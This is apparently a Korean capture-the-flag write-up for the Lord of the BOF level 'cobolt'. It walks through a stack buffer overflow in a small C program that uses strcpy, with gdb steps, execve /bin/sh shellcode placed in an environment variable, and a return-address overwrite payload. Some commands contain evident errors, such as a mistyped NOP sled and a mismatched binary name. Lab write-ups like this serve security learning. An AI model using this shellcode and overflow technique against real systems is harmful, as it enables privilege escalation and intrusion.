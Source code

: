# LOB 2번

#### ID : gremlin PW: hello bof world
<br>
**먼저 bash2에서 실행해야함을 기억하자** <br>

우선 cobolt.c의 내용을 보자<br>
```cat cobolt.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[16];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼의 크기가 16으로 작아졌을 뿐 lob 1번 문제와 유사하다.
[LOB 1번 보기]()

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**cobolt 코드를 디버깅해야하기 때문에 cobolt1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q cobolt1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 16만큼의 자리를 만들고있다.<br>
buffer에서 ebp까지의 거리가 16이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../cobolt `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!

